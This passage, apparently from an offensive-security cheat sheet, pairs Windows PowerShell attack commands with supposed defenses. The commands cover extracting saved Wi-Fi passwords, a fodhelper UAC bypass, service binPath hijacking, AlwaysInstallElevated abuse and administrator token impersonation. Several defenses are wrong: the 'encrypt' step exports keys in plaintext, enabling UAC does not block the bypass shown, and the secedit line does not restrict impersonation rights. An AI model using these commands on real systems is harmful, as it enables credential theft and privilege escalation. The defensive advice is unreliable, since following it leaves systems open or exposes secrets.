 #### **Extract Wi-Fi Passwords**  
**Offensive Command**:  
```powershell  
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  
```  
**Defense**:  
```powershell  
# Encrypt Wi-Fi profiles  
netsh wlan export profile key=clear folder=C:\WiFi-Encrypted  
```  

---

### **2. Privilege Escalation**  
#### **Bypass UAC via fodhelper**  
**Offensive Command**:  
```powershell  
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force;  
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\malware.exe"  
```  
**Defense**:  
```powershell  
# Block UAC bypass via Group Policy  
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 1  
```  

#### **Exploit Service Permissions**  
**Offensive Command**:  
```powershell  
sc.exe config VulnService binPath= "C:\malware.exe"  
```  
**Defense**:  
```powershell  
# Audit service permissions  
accesschk.exe -uwcqv "Authenticated Users" *  
```  

#### **Abuse AlwaysInstallElevated**  
**Offensive Command**:  
```powershell  
msiexec /i C:\malware.msi /quiet  
```  
**Defense**:  
```powershell  
# Disable AlwaysInstallElevated  
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -Value 0  
```  

#### **Token Impersonation**  
**Offensive Command**:  
```powershell  
Invoke-TokenManipulation -ImpersonateUser -Username "DOMAIN\Administrator"  
```  
**Defense**:  
```powershell  
# Restrict SeImpersonatePrivilege  
secedit /configure /cfg %windir%\inf\defltbase.inf /db defltbase.sdb /verbose  
```  
